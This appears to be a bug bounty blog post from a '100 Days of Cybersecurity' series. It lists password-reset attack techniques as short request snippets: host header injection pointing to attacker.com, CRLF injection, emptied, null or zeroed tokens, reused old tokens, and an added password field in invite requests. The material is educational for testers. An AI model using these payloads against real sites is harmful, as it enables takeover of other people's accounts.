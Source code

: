```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/77d37890-df5d-43c6-8963-353f8cb4ebbd"> Password Reset Vulnerabilities  
date: 2024-01-04 07:00:02 +730
categories: [Resources, bugbounty]
tags: [bugbounty, password-reset-vuln,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 4</h1> -->
<br><br>
![th-364396762 (1)](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/6609b668-6523-4436-b31b-e1e405cf670b)

<br>
Hey, hacking enthusiasts! Ready to uncover some mind-blowing tricks? Dive into these HubSpot Full Account Takeover methods and master the hacker's playbook!

## 📧 Using Your Token on Victims' Email



```
POST /reset
email=victim@gmail.com&token=$YOUR-TOKEN$
```

Imagine slipping into someone's email fortress with a cleverly placed token. 🕵️‍♂️

## 🌐 Host Header Injection


```
POST /reset
Host: attacker.com
email=victim@gmail.com`
```

Messing with the host header to sow confusion. Crafty, right?

## 🎭 HTML Injection in Host Header


```
POST /reset
Host: attacker">.com
email=victim@gmail.com
```

Why settle for ordinary when you can inject style into your hacks? 😉

## 🕵️ Leakage of Password Reset in Referer Header


`Referrer: https://website.com/reset?token=1234` 

Spotting hidden treasures in the Referer Header - a classic move in the hacker's handbook.

## 🎭 Using Companies Email


```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc
```
Mixing business with pleasure by exploiting the power of company emails. 🏢💻

## 🚪 CRLF in URL


`/resetPassword?0a%0dHost:atracker.tld` 

Breaking into the reset realm with CRLF magic. 🪄

## 📬 HTML Injection in Email



`HTML injection in email via parameters, cookie, etc > inject image > leak the  token` 

Crafting emails that are not just messages but gateways to breach security. 💻🔓

## 🚮 Remove Token



`/reset?eamil=victims@gmail.com&token=` 

Playing hide and seek with tokens - remove, replace, and conquer. 🕵️‍♀️🎭

## 🔄 Change it to 0000



`/reset?eamil=victims@gmail.com&token=0000000000` 

Transforming tokens like a digital alchemist. ✨

## 🚫 Use Null Value



`/reset?eamil=victims@gmail.com&token=Null/nil` 

Because sometimes, nothing is more powerful than Null. 🧙‍♂️

## 🎲 Try an Array of Old Tokens



`/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]` 

Rolling the dice with a repertoire of old tokens. 🎲

## 🕵️ SQLi Bypass


`try sqli bypass and wildcard or, %, *` 

In the quest for knowledge, SQLi becomes the secret language. 🤫📜

## 🔄 Request Method / Content Type



`change request method (get, put, post etc) and/or content type (xml<>json)` 

Mastering the art of disguise - because not all requests are created equal. 🎭

## 🔄 Response Manipulation

`Replace bad response and replace with good one` 

Turning the tables by manipulating responses. It's like playing chess with code. ♟️

## 🚀 Massive Token



`/reset?eamil=victims@gmail.com&token=1000000 long string` 

Unleashing the power of the colossal token - because size does matter in the hacking world. 🚀

## 🔗 Crossdomain Token Usage



`If a program has multiple domains using the same underlying reset mechanism...` 

Navigating through domains like a digital acrobat - because sometimes, tokens transcend boundaries. 🌐

## Final Notes 📒 

🔍 Leaking Reset Token in Response Body

 🔄 Change 1 Char at the Begin/End to See if the Token is Evaluated

📬 Use Unicode Char Jutsu to Spoof Email Address

⏱️ Look for Race Conditions

 🔄 Try to Register the Same Mail with Different TLD (.eu, .net, etc)


----------

Hope you enjoy this adventure into the world of bug bounty hunting! Happy hacking!

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
